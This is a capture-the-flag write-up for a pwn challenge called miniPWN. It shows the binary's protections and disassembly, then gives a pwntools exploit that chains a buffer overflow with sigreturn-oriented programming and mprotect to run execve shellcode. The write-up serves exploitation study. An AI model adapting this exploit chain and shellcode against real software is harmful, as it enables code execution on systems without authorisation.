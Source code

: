```yaml
---
title: "[pwn]miniPWN"
categories:
  - CTF/pwn
tags:
  - shellcode
  - mprotect
  - srop
---
```


[miniPWN](https://github.com/v13td0x/Q4_21/blob/main/pwn/miniPWN/minipwn.tar.gz)

```css
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

```wasm
_start:
<+0>     push _write
<+5>     mov rdi,0
<+10>    mov rsi,rsp
<+13>    sub rsi,8  ; bof offset = 8 bytes
<+17>    mov rdx,300
<+22>    mov rax,0
<+27>    syscall    ; read(0, rsp-8, 300)
<+29>    ret
_write:
<+0>     push _exit
<+5>     mov rsi,rsp
<+8>     sub rsi,8
<+12>    mov rdx,8
<+17>    mov rax,1
<+22>    mov rdi,1
<+27>    syscall    ; write(1, rsp-8, 8)
<+29>    ret
_exit:
    mov rax,0x3c
    syscall
```

Because of `NX enabled` , we will use `mprotect` to make a memory segment with a fixed address writable and executable, shift the stack to this address space, write shellcode on the stack, and execute it by returning to it

```python
# xpl.py
from pwn import *

def start(argv=[], *a, **kw):
  return process([exe] + argv, *a, **kw)

def sigreturn_mprotect():
	frame = SigreturnFrame()
	frame.rax = constants.SYS_mprotect # 0xa
	frame.rdi = writable
	frame.rsi = 0x1000
	frame.rdx = 0x7	# mode (rwx)
	frame.rsp = new_ret # new stack area
	frame.rip = syscall_ret
	return bytes(frame)
	
exe = './pwn'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
bof_offset = 8

syscall_ret = elf.sym._start + 27
read_ret = elf.sym._start + 17
# the 0x400000 memory area executable and writable 
# to allow shellcode execution at a known address
writable = 0x400000
new_ret = 0x400018

p = start()
# 1
payload = flat({
	bof_offset: [
		read_ret, # ret here to fix rax = 0xf by read
		syscall_ret,
		sigreturn_mprotect(),
	]
})
p.send(payload)
p.send(b'A' * constants.SYS_rt_sigreturn)

# 2
payload = flat({
	bof_offset:[
		new_ret+8,
		shellcode,
	]
})

p.send(payload)
p.interactive()
```

